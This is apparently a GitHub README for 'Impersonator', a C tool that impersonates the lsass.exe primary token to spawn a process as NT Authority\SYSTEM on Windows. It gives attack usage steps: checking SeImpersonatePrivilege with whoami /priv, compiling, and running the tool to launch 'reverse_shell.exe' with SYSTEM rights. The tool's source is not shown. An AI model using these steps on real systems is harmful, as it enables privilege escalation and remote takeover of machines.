 # Impersonator

![Image](https://github.com/plackyhacker/impersonator/blob/main/Impersonator.gif)

Simple C code to impersonate the `lsass.exe` primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` and `SeDebug` privileges are required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```
